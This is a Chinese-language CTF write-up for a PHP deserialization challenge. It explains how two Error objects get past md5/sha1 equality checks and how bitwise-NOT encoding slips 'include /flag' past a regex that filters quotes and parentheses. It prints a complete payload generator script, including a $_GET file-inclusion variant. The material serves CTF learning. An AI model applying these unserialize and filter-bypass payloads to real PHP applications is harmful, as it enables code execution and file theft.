 ```php
if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) )
```

对于这个，我们常见的是利用数组绕过强类型，但是这个是在类中，不能使用数组，只有使用Error类。

md5()和sha1()可以对一个类进行hash，并且会触发这个类的 `__toString` 方法；且当eval()函数传入一个类对象时，也会触发这个类里的 `__toString` 方法，刚才实验过，Error类中的`__toString`将类转换的字符串相等。

又存在preg_match，过滤了括号，无法调用函数，尝试`include "/flag"`,但是引号过滤了，我们可以使用`两次取反，自动获得字符串`的。(绕过引号，长知识了)

payload

```php
<?php

class SYCLOVER {
	public $syc;
	public $lover;
	public function __wakeup(){
		if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
		   if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
			   eval($this->syc);
		   } else {
			   die("Try Hard !!");
		   }
		   
		}
	}
}
$cmd='/flag';
$cmd=urlencode(~$cmd)
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
也可以用，也需要用两次取反
$str1 = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!".urldecode("%FF")."]?>";
$str = "?><?=include $_GET[1]?>"; 
*/
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>
```

这道题我想到能不能同用hex编码

```php
<?php
$cmd='/flag';
$cmd=bin2hex($cmd);
var_dump($cmd);
$cmd=hex2bin($cmd);
var_dump($cmd);
```
